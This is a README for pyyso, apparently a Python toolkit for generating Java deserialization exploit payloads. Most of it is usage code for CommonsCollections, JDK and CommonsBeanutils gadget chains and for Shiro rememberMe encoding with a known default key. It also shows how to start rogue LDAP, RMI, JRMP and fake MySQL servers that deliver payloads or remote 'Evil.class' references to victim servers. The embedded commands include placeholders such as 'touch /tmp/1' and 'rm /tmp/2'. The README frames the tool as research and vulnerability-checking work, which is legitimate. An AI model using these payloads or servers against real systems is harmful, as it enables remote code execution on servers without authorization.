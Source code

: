# pyyso: powerful java serialized toolkit

## What is it?
**pyyso** is a Python package that provides fast and flexible ways to generate java serialized poc.
It aims to be the fundamental high-level building block for doing vulnerability **check and research** in Python.
Additionally, it has a goal of becoming the most convenient and reliable toolkit implemented in Python for Java researchers

## Main Features
Here are just a few of the things that pyyso does well:

- Easy generating of java serialized poc
- Powerful, flexible functionality to start a LDAP/RMI/JRMP/MySQL server to host java serialized pocs
- Communicating and collaborating with other Python packages 
- Won't be exploited back in RMI like java client

pyyso has implemented
- URLDNS Gadget
- CommonsCollections1-7 Gadgets
- JDK7u21 Gadget
- JDK8u21 Gadget
- CommonsBeanutils1 1.8.3 no cc
- CommonsBeanutils1 1.9.2
- shiro-550 rememberMe deserialized
- java class embed with command
- LDAP server hosting java serialized pocs
- LDAP server hosting java remote reference factory
- RMI server
- high JDK version beanfactory bypass
- JRMP server
- JRMPClient Gadget
- Fake MySQL server for JDBC deserialize

## Where to get it
The source code is currently host on GitHub at:
https://github.com/cokeBeer/pyyso

## Installation from sources
```sh
pip install pyyso
```

## How to use
### basic usage

First import pyyso

```python
import pyyso
```
To generate a java serialized zed poc use:
```python
pyyso.urldns("https://x.dnslog.com") #return java serialzed data of URLDNS in bytes
pyyso.cc1("touch /tmp/1") #return java serialzed data of CommonsColletions1 in bytes
pyyso.cc2("touch /tmp/1") #return java serialzed data of CommonsColletions2 in bytes
pyyso.jdk7u21("touch /tmp/1") #return java serialzed data of JDK7u21 in bytes
pyyso.jdk8u20("touch /tmp/1") #return java serialzed data of JDK8u20 in bytes
pyyso.jrmpclient("127.0.0.1",80) #return java serialzed data of jrmpclient in bytes
pyyso.cb1v183("touch /tmp/1") #return java serialzed data of CommonsBeanutils1 1.8.3 no cc in bytes
```
To generate a java class embed with command use:
```python
pyyso.clazz("touch /tmp/1") #return java class embed with command in bytes
```
### shiro 

To encode a shiro poc use:

```python
serobj=pyyso.cb1v183("touch /tmp/1")
pyyso.shiroEncode(serobj=serobj,key=b'kPH+bIxk5D2deZiIxcaaaA==')
```
### LDAP

To start a LDAP server hosting java serialized pocs:

```python
serobj=pyyso.cc1("touch /tmp/1")
server=pyyso.LdapSerialized(serobj=serobj, ip="0.0.0.0", port=1389)
server.run()
```
This will start a LDAP server listening `0.0.0.0:1389` 
You can change the hosted java serialized data by:

```python
server.serobj=pyyso.cc1("rm /tmp/2")
```
To start a LDAP server hosting java remote reference factory:
```python
server=pyyso.LdapRemoteRef(javaCodeBase="http://127.0.0.1:8088/", javaFactory="Evil", javaClassName="java.lang.String", ip="0.0.0.0", port=1389):
server.run()
```
This will start a LDAP server listening `0.0.0.0:1389 ` 
and will return a remote reference point to `http://127.0.0.1:8088/Evil.class`

### JRMP

To start a JRMPListener

```python
serobj=pyyso.cc1("open /tmp",jrmp=True) #note that there is 'jrmp=True'!
server=pyyso.JRMPListener(serobj=,ip="0.0.0.0", port=5151)
server.run()
```

This will start a JRMPListener listening `0.0.0.0:5151`

By deserializing a jrmpclient Gadget in victim's server, the victim's server will connect back to JRMPListener.

the  jrmpclient Gadget should be made by:

```python
serobj=pyyso.jrmpclient(hostname="127.0.0.1", port=5151)
```

which the hostname  is corresponding to where JRMPListener is hosting on

### RMI and bypass

To get a bypass poc, use:

```python
serobj=pyyso.beanfactory("open /tmp", rmi=True)
```

To start a RMI server and host bypass poc, use:

```python
serobj=pyyso.beanfactory("open /",rmi=True) ##note that there is 'rmi=True'!
server=pyyso.RMIServer(serobj=serobj,ip="0.0.0.0", port=1099, refip="0.0.0.0", refport=42155)
server.run()
```

a registry will listen `0.0.0.0:1099`  and a poc provider server will listen `0.0.0.0:42155`

### MySQL

to start a MySQL server hosts JDBC deserialize payload, use:
```python
serobj=pyyso.cc2("open /")
server=pyyso.MysqlServer(serobj=serobj, ip="0.0.0.0", port=3306)
server.run()
```

a fake MySQL server will listen `0.0.0.0:3306`, and wait for `SHOW STATUS`

## Support Options

For some reasons, part Gadgets support  JRMP or RMI now，which can be enabled by `rmi=True` or `jrmp=True`

| Gadgets     | Basic | jrmp option | rmi option |
| ----------- | ----- | ----------- | ---------- |
| CC1-CC7     | ✅     | ✅           | ❌          |
| CB1v192     | ✅     | ✅           | ❌          |
| CB1v183     | ✅     | ✅           | ❌          |
| JDK7u21     | ✅     | ✅           | ❌          |
| beanfactory | ❌     | ❌           | ✅          |
| others      | ✅     | ❌           | ❌          |

## License

[MIT](LICENSE)

## Inspired by
https://github.com/frohoff/ysoserial  
https://github.com/mbechler/marshalsec
